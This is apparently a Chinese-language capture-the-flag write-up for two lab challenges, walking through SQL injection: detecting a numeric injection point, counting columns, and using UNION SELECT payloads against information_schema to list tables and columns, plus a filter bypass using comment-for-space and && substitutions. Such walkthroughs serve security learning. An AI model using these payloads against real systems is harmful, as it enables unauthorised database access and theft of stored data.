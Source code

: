  ### 复现

#### 皮蛋

首先进行判断注入类型

1 and 1=1 和1 and 1=2结果不一致，得出结论：数字型注入

之后用 1 order by x  分别输入1，2，3，在3时显示错误

之后使用

-1 union select 1,database()            //找到了ctf

-1 union select 1,(select group_concat(table_name) from information_schema.tables where table_schema = 'ctf' ) 

-1 union select 1,(select group_concat(column_name) from information_schema.columns where table_schema = 'ctf' and table_name='')

\\ctf 下属column Fl4g,hexo  

\\Fl4g和hexo中的内容  id,des,value,id,uname,position  



-1 union select 1,(select group_concat(concat_ws(xxxxx))from users)

xxxxx内容为上述Fl4g中的column名

获得代码

#### 皮蛋plus

通过试探：

空格符号检测

and符号检测

空格/**/代替，and用&&代替

试探：

1#和1'#都正常，而1"报错，1"#正常，说明是双引号注入

输入1"/**/order/**/by/**/x#，x=2时正常，x=3时错误，说明有两行

输入-1"/**/union/**/select/**/1,database()#

![img](https://s2.loli.net/2024/12/01/9n4KGTJYWf1otcU.png)

-1"/**/union/**/select/**/1,(select/**/group_concat(table_name)/**/from/**/information_schema.tables/**/where/**/table_schema/**/=/**/'ctf')#

![img](https://cdn.nlark.com/yuque/0/2024/png/42552309/1728125043632-03e7b3c0-3060-40f5-8775-aa8cfdd16d7d.png)

-1"/**/union/**/select/**/1,(select/**/group_concat(column_name)/**/from/**/information_schema.columns/**/where/**/table_schema/**/=/**/'ctf'/**/&&/**/table_name='Fl4g')#

![img](https://s2.loli.net/2024/12/01/NL7vDbOz4haX38J.png)
